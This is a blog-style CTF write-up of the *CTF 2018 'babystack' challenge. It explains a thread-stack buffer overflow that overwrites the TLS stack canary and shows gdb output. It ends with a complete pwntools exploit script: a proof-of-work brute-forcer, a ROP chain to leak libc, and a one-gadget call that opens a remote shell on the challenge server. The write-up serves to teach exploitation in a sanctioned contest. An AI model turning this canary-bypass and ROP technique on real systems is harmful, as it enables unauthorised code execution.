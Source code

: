 ```yaml
---
title:  Star Ctf 2018 Babystack
updated: 2018-05-01 16:10:33
tags: pwn,writeup
---
```




- [babystack](#orgdffcbc7)



<a id="orgdffcbc7"></a>

# babystack

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

The challenge creates a thread and calls a function start_routine

```c
void *__fastcall start_routine(void *a1)
{
  void *result; // rax@2
  __int64 v2; // rcx@4
  unsigned __int64 v3; // [sp+8h] [bp-1018h]@1
  char s; // [sp+10h] [bp-1010h]@1
  __int64 v5; // [sp+1018h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  memset(&s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v3 = get_int();
  if ( v3 <= 0x10000 )
  {
    get_inp(0, &s, v3);
    puts("It's time to say goodbye.");
    result = 0LL;
  }
  else
  {
    puts("You are greedy!");
    result = 0LL;
  }
  v2 = *MK_FP(__FS__, 40LL) ^ v5;
  return result;
}
```

Well there is a huge overflow in the stack . During the ctf giving a very large input makes the program segfault inside the get<sub>inp</sub> function which dereference a location on the stack and it points to the errno variable but our overflow overwrite this pointer and causes trouble , I just found the offset and gave it a pointer to BS's which will be allways null , thus the read will terminate without any error . Next is to bypass the canary

As the function is called on a different thread , the thread will have a new stack and the canary is placed on the thread local storage structure. and this structure will be on top of the stack which gives us a opportunity to overflow in this case .

```c
  typedef struct
  {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                 thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    uintptr_t pointer_guard;
    ...
  } tcbhead_t;
```

the fs segment register will always point to this . As it turns out i could not view the address which fs points with gdb , the `arch_prctl` syscall is responsible of setting address to these registers , by viewing the the argument of this syscall we can find the address of this structure .

    pwndbg> catch syscall 158
    Catchpoint 1 (syscall 'arch_prctl' [158])

this will stop the execution after the syscall has called

```nasm
pwndbg> reg
*RAX  0xffffffffffffffda
*RBX  0x1
*RCX  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
*RDX  0x7ffff7fc5010 ◂— 0x0
*RDI  0x1002
*RSI  0x7ffff7fc4700 ◂— 0x7ffff7fc4700
*R8   0xffffffffffffffff
 R9   0x0
*R10  0x22
*R11  0x206
*R12  0x22c3d0dcdbfa
*R13  0x10
 R14  0x0
*R15  0x7ffff7ffe170 ◂— 0x0
*RBP  0x7fffffffdbd0 —▸ 0x400040 ◂— 0x500000006
*RSP  0x7fffffffd9c0 ◂— 0x0
*RIP  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
pwndbg> x/10gx 0x7ffff7fc4700
0x7ffff7fc4700: 0x00007ffff7fc4700      0x00007ffff7fc5010
0x7ffff7fc4710: 0x00007ffff7fc4700      0x0000000000000000
0x7ffff7fc4720: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4730: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4740: 0x0000000000000000      0x0000000000000000
```

this is the address of the tls . the values are not populated yet .

```nasm
0x004009f2      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
0x004009fb      488945f8       mov qword [rbp - 8], rax
```

this is the code which copy the canary to the stack , so fs + 0x28 gives us the canary .

```nasm
pwndbg> x/4gx 0x7ffff7fc4700 + 0x28
0x7ffff7fc4728: 0x4339f83af5815e00      0xe535fd48502579dc
0x7ffff7fc4738: 0x0000000000000000      0x0000000000000000
```

now we can calculate the offset of the canary from the read buffer and overwrite it with a known values , then we can use the usual ROP techniques to get the shell .

```python

import hashlib,string

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    context.log_level = "debug"
    io = remote ("47.91.226.78", 10005)
else:
    context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    env = { 'LD_PRELOAD' : './libc.so.6-56d992a0342a67a887b8dcaae381d2cc51205253'}
    io = process('bs',env=env )
    # gdb.attach(io,'''
    # b * 0x0400A1A
    # b * 0x00400A9C
    # ''')

def send(size,inp):
        io.recvuntil("How many bytes do you want to send?\n")
        io.sendline(str(size))
        io.send(str(inp))
def calc():
    leak=io.recvuntil('\n').strip()
    print leak
    l=leak.split(" == ")
    l[0]=(l[0][12:]).replace(')','')
    print l
    s=0
    for i in string.printable:
        for j in string.printable:
            for k in string.printable:
                for m in string.printable:
                    if hashlib.sha256(i+j+k+m+l[0]).hexdigest() == l[1]:
                        print i+j+k+m
                        io.sendlineafter("Give me xxxx:",i+j+k+m)
                        return
                    s=s+1
                    if s%10000==0:
                        print s

# send(0x10000,p64([0x602f00]) * ( 0x10000 / 8 ))
# 0x00400c03: pop rdi; ret;
# 0x00400c01: pop rsi; pop r15; ret;

calc()

payload = "A" * 0x1008 + "\x00" * 0x8
payload += p64([0x602d00,
                0x00400c03,
                0x601fb0,
                0x004007C0,
                0x00400c03,
                0x0,
                0x00400c01,
                0x602d00,
                0x0,
                0x004007E0,
                0x00400b90,
])
                
payload = payload.ljust( 6080 , "\x00" ) + p64([0x602f00])
payload = payload.ljust(0x1800,"\x00")
send(len(payload) , payload)


io.recvline()
libc_leak = u64(io.recvline()[:-1].ljust(0x8,"\x00"))
libc = libc_leak - 0x0006f690
magic = libc + 0xf1147

log.info("Libc Leak : " + hex(libc))


payload = p64([0x602d00,
               magic
])
               
io.sendline(payload)

io.interactive()
```

